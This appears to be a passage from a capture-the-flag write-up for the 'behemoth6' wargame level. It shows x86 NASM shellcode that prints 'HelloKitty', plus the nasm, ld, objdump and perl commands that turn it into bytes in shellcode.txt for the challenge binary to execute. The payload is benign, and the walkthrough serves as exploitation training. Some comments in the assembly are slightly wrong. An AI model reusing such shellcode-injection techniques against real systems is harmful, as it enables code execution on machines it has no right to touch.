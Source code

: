 ```c

puts("Write your own shellcode.");
exit(1);
```
The second binary (**behemoth6_reader**) reads shellcode from a file named **shellcode.txt**, maps it into memory and makes it executable, and then executes it. However, there is a caveat, it checks each byte in the shellcode. If the byte is **0xb** then it breaks out of the loop, prints *"Write your own shellcode."* and does not execute it.

To solve this challenge, we need to write our own shellcode that prints out the string *"HelloKitty"* when executed.

### Exploit Setup:
```nasm
section .text
global _start

_start:
	xor ebx, ebx		; null ebx (0)
	mul ebx			; eax, ebx, edx = 0

	push eax		; push null terminator
	mov ax, 0x7974    	; move "ty" into ax
  	push ax           	; push "ty"
	push 0x74694b6f		; push "oKit"
	push 0x6c6c6548		; push "Hell"
	mov ecx, esp		; move pointer to "HelloKitty" into edi

  	xor eax, eax    	; null eax (0)
	mov al, 0x04		; move write syscall number into al (eax)
	mov bl, 0x1		; move 1 into ebx (1 = stdout)
	mov dl, 12		; move length of string (12) into dl
	int 0x80		; call write

	mov al, 0x1		; move exit syscall number into al (eax)
	xor ebx, ebx		; null ebx (0)
	int 0x80		; call exit
```

```bash
# Compile the assembly
nasm -f elf -o shellcode.o shellcode.asm

# Link
ld -m elf_i386 -o shellcode shellcode.o

# Extract Shellcode
printf '\\x' && objdump -d shellcode | grep "^ " | cut -f2 | tr -d ' ' | tr -d '\n' | sed 's/.\{2\}/&\\x /g'| head -c-3 | tr -d ' ' && echo ' '

# Write the output into a file named shellcode.txt
perl -e 'print "\x31\xdb\xf7\xe3\x50\x66\xb8\x74\x79\x66\x50\x68\x6f\x4b\x69\x74\x68\x48\x65\x6c\x6c\x89\xe1\x31\xc0\xb0\x04\xb3\x01\xb2\x0c\xcd\x80\xb0\x01\x31\xdb\xcd\x80"' > ./shellcode.txt
```
